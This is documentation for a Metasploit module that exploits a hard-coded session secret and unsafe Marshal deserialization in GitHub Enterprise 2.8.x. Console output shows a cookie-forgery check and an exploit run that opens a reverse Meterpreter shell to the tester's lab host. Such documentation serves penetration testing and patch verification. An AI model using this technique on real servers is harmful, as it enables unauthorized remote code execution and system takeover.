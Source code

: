 This module exploits two security issues found in Github Enterprise 2. The first problem is
that the session management uses a hard-coded secret value, which can be abused to sign a
serialized malicious object. The second problem is that the serialized string is passed to
a ```Marshal.load``` API call, which deserializes the malicious object, and executes it. A
malicious attacker can take advantage of these problems to achieve remote code execution.

According to exablue.de, this RCE was reported to GitHub, and the researcher was rewarded
$18,000 total.

## Vulnerable Application

The following versions are affected:

* 2.8.0 - 2.8.6.

For testing purposes, you can download a Github Enterprise image from the following location:

[https://enterprise.github.com/releases/](https://enterprise.github.com/releases/)

This module was specifically tested against version 2.8.0, which can be downloaded here:

Download links are provided for reference only and are not maintianed by the project. Utilize at your own risk!
[https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova](https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova)

Before you install the image, you must have a valid key. Start from here:

[https://enterprise.github.com/sn-trial](https://enterprise.github.com/sn-trial)

After signing up for a trial, you should receive an e-mail. The email will instruct you to access
your portal account. In there, you can download your github-enterprise.ghl file, which is a key
to complete installing your Github Enterprise system.

## Using github_enterprise_secret

The module consists of two features: the ```check``` command and the ```exploit``` command.

The ```check``` command determines if the host is vulnerable or not by extracting the hash of the
cookie, and then attempts to create the same hash using the default secret key. If the two match,
it means the module can tamper the cookie, and that makes the server vulnerable to deserialization.

```
msf exploit(github_enterprise_secret) > check

[*] Found cookie value: _gh_manage=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZl%0AZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIG%0AOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3Zv%0AQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY%3D%0A--ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed;, checking to see if it can be tampered...
[*] Data: BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZlZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIGOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3ZvQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY=
[*] Extracted HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] Expected HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] The HMACs match, which means you can sign and tamper the cookie.
[+] 192.168.146.201:8443 The target is vulnerable.
msf exploit(github_enterprise_secret) > 
```

If vulnerable, the ```exploit``` command will attempt to gain access of the system:

```
msf exploit(github_enterprise_secret) > exploit

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Serialized Ruby stager
[*] Sending serialized Ruby stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.146.201
[*] Meterpreter session 2 opened (192.168.146.1:4444 -> 192.168.146.201:52454) at 2017-03-23 10:11:17 -0500
[+] Deleted /tmp/htBDuK.bin
[+] Deleted /tmp/kXgpK.bin
[*] Connection timed out

meterpreter >
```
